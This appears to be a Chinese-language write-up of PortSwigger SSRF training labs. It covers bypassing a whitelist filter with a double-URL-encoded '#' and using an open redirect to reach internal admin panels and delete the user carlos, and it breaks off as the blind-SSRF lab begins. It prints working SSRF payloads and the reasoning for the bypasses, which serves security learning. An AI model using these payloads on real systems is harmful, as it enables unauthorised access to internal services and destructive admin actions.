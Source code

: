 * 要求：请更改库存检查URL以访问位于`http://localhost/admin`的管理界面，并删除用户carlos。

* 先尝试：`stockApi=http://stock.weliketoshop.net`

    返回："Could not connect to external stock check service"

    再尝试：`stockApi=http://127.0.0.1`

    发现返回了："External stock check host must be stock.weliketoshop.net"

    说明只能从`stock.weliketoshop.net`进去。

* 尝试绕过：
    * `stockApi=http://stock.weliketoshop.net@localhost/admin`，不行
    * `stockApi=http://localhost\stock.weliketoshop.net/admin`，`\`被禁止了
    * `stockApi=http://localhost#stock.weliketoshop.net/admin`，不行
    * `stockApi=http://stock.weliketoshop.net@%6c%6f%63%61%6c%68%6f%73%74/admin`，不行
    * `stockApi=http://stock.weliketoshop.net@%25%36%63%25%36%66%25%36%33%25%36%31%25%36%63%25%36%38%25%36%66%25%37%33%25%37%34/admin`，不行

* 我一开始以为是`@`被禁止了，然后试了一下：

    `stockApi=http://localhost@stock.weliketoshop.net/admin`

    发现这个没有被禁止。说明`@`并没有被禁止。

    又尝试了一下：`stockApi=http://localhost#@stock.weliketoshop.net/admin`

    不出意料的被禁止了。

    尝试将`#`进行二次编码。

    `stockApi=http://localhost%25%32%33@stock.weliketoshop.net/admin`通过了。

    这里猜测在检查ip的时候，将上面的url进行一次url解码，变成`http://localhost%23@stock.weliketoshop.net/admin`，这个时候检查ip，发现是`stock.weliketoshop.net`，于是通过了检查，之后查询库存的时候，又进行了一次url解码，变成了`http://localhost#@stock.weliketoshop.net/admin`，这里查询的便是`localhost`

* payload:`stockApi=http://localhost%25%32%33@stock.weliketoshop.net/admin/delete?username=carlos`

#### 5. SSRF with filter bypass via open redirection vulnerability

* 要求：访问`http://192.168.0.12:8080/admin`，并删除carlos。

这里需要找到那个重定向。发现位置在nextProduct。

`/product/nextProduct?currentProductId=1&path=/product?productId=2`

payload:`stockApi=/product/nextProduct?currentProductId=1%26path=http://192.168.0.12:8080/admin/delete?username=carlos`

> This SSRF exploit works because the application first validates that the supplied `stockAPI` URL is on an allowed domain, which it is. The application then requests the supplied URL, which triggers the open redirection. It follows the redirection, and makes a request to the internal URL of the attacker's choosing.

#### 6. Blind SSRF with out-of-band detection

> This site uses analytics software which fetches the URL specified in the Referer header when a product page is loaded.
>
> To solve the lab, use this functionality to cause an HTTP request to the public Burp Collaborator server.
